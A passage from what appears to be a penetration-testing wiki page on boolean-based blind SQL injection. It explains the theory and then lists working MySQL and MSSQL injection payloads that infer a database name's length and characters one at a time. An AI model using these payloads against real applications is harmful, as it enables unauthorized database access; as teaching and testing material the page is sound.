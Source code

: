 # Boolean Based

## Theory

Boolean-based SQL injection is a technique that relies on sending an SQL query to the database based on which the technique forces the application to return different results.\
The result allows an attacker to judge whether the payload used returns true or false. Even though no data from the database are recovered, the results give the attacker valuable information. Depending on the boolean result (TRUE or FALSE), the content within the response will change, or remain the same.

## Practice

We can use a script (Python) similar to the one below, to automate the process of dumping the database trough blind SQLi.&#x20;

<details><summary>Exploit Script Example</summary></details>

#### Getting database

{% tabs %}
{% tab title="MySQL" %}
First, retrieve the database length:

```sql
1' AND (SELECT LENGTH(database()))=1-- -  #False  
1' AND (SELECT LENGTH(database()))=2-- -  #False
1' AND (SELECT LENGTH(database()))=3-- -  #True -> length of database is 3 characters.
```

Second, retrieve the database name:

```sql
--True -> It means the first character is p.
1' AND (SELECT HEX(SUBSTRING(database(), 1, 1)))=HEX('p')-- -
1' AND (SELECT ASCII(SUBSTRING(database(), 1, 1)))=112-- -  #ASCII code is in decimal

--True -> It means the second character is w.
1' AND (SELECT HEX(SUBSTRING(database(), 2, 1)))=HEX('w')-- -

--True -> It means the third character is n.
1' AND (SELECT HEX(SUBSTRING(database(), 3, 1)))=HEX('n')-- -
```
{% endtab %}

{% tab title="MSSQL" %}
First, retrieve the database length:

```sql
1' AND (SELECT LEN(DB_NAME()))=1--  #False  
1' AND (SELECT LEN(DB_NAME()))=2--  #False
1' AND (SELECT LEN(DB_NAME()))=3--  #True -> It means the length of database is 3 characters.
```
